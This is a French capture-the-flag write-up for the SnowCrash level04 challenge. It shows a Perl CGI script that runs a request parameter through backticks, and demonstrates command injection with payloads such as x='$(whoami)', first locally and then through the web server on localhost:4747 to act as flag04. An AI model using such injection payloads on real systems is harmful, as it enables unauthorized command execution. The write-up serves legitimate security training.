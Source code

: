 Un script est présent dans le home :

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ce script possède le bit SUID actif, ce qui signifie qu'il s'exécute avec les droits de son propriétaire, qui est **`flag04`** :

```bash
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```

Le script attend une requête HTTP, utilise le module CGI de Perl pour extraire le paramètre "x" de la requête, puis exécute et affiche le résultat de cette commande en utilisant la syntaxe des backticks de Perl (`). C'est une situation classique de vulnérabilité d'injection de commandes. On peut voir cette vulnérabilité en action avec des exemples tels que :

```bash
level04@SnowCrash:~$ ./level04.pl x=2
Content-type: text/html

2
level04@SnowCrash:~$ ./level04.pl x='$(ls -la)'
Content-type: text/html

total 16 dr-xr-x---+ 1 level04 level04 120 Mar 5 2016 . d--x--x--x 1 root users 340 Aug 30 2015 .. -r-x------ 1 level04 level04 220 Apr 3 2012 .bash_logout -r-x------ 1 level04 level04 3518 Aug 30 2015 .bashrc -rwsr-sr-x 1 flag04 level04 152 Mar 5 2016 level04.pl -r-x------ 1 level04 level04 675 Apr 3 2012 .profile
```

Cependant, lorsqu'on exécute la commande **`whoami`** :

```bash
level04@SnowCrash:~$ ./level04.pl x='$(whoami)'
Content-type: text/html

level04
```

On est toujours avec le user level04 et non le user flag04. Pourtant, le setuid est activé ?

Le problème ici est que Perl, pour des raisons de sécurité, ne respecte pas le bit SUID à partir des versions 5.12.0 (la version sur la VM est 5.14.2) : https://stackoverflow.com/questions/21597300/can-i-setuid-a-perl-script

C'est pour cela que le script s'exécute avec les droits de **`level04`** lorsqu'il est exécuté directement depuis le shell.

Cependant, le script est aussi présent dans le répertoire **`/var/www/level04`** :

```bash
level04@SnowCrash:~$ find / -user flag04 2>/dev/null
/var/www/level04
/var/www/level04/level04.pl
/rofs/var/www/level04
/rofs/var/www/level04/level04.pl
```

Ce qui suggère qu'il est probablement exécuté par un serveur web.

Peut-être qu’on peut faire exécuter le script directement sur le serveur plutôt qu’avec l’exécutable dans le home ?

Le commentaire **`# localhost:4747`** dans le script indique qu'il s'attend à être appelé sur le port 4747 du localhost. En utilisant `**curl**` ou un navigateur pour accéder à **`http://localhost:4747`**, on peut faire exécuter le script par le serveur web :

![Capture d’écran du 2023-07-12 00-19-33](https://github.com/Sleleu/snow_crash/assets/93100775/c892e540-5f5e-461d-afaa-fe23d0dfd9ab)

Tentons un whoami cette fois-ci :

![Capture d’écran du 2023-07-12 00-19-54](https://github.com/Sleleu/snow_crash/assets/93100775/8bc1f5ef-73a8-4617-8918-68e4005ed539)

Nous sommes bien avec le user flag04 cette fois ! On peut retenter la commande getflag :

![Capture d’écran du 2023-07-12 00-20-39](https://github.com/Sleleu/snow_crash/assets/93100775/b3296c9a-5067-48f9-ae92-e5f24ec9afc0)


